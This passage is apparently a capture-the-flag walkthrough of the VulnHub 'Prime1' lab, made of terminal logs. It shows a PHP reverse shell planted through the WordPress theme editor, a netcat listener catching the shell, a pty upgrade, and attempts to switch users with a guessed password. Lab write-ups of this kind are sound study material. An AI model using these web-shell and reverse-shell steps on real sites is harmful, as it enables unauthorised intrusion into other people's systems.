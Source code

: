         inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1369  bytes 2519405 (2.4 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1369  bytes 2519405 (2.4 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

mpqemubr0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        inet 10.239.197.1  netmask 255.255.255.0  broadcast 10.239.197.255
        ether 52:54:00:50:6b:a5  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
                    
┌──(root💀kali)-[/opt/vulnhub/prime1]
└─# nano shell.zip 
                                           
┌──(root💀kali)-[/opt/vulnhub/prime1]
└─# unzip shell.zip     
Archive:  shell.zip
  inflating: plugin_shell.php        
                                           
┌──(root💀kali)-[/opt/vulnhub/prime1]
└─# nano plugin_shell.php 
                                           
┌──(root💀kali)-[/opt/vulnhub/prime1]
└─# rm shell.zip                              
                                           
┌──(root💀kali)-[/opt/vulnhub/prime1]
└─# zip shell.zip plugin_shell.php 
  adding: plugin_shell.php (deflated 31%)

Unable to create directory wp-content/uploads/2021/05. Is its parent directory writable by the server?

## Does not work; how about theme editing?

http://192.168.1.237/wordpress/wp-admin/theme-editor.php?file=secret.php&theme=twentynineteen
/* Ohh Finaly you got a writable file */

Paste in /usr/share/webshells/php/php-reverse-shell.php and change IP

Go to http://192.168.1.237/wordpress/wp-content/themes/twentynineteen/secret.php

## Shell

┌──(root💀kali)-[/opt/vulnhub/prime1]
└─# nc -nvlp 1234                                     
listening on [any] 1234 ...
connect to [192.168.1.210] from (UNKNOWN) [192.168.1.237] 35374
Linux ubuntu 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 04:47:56 up 58 min,  0 users,  load average: 0.14, 5.37, 18.34
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: cant access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@ubuntu:/$ 

www-data@ubuntu:/$ su saket
su saket
Password: follow_the_ippsec

su: Authentication failure

www-data@ubuntu:/$ su victor
su victor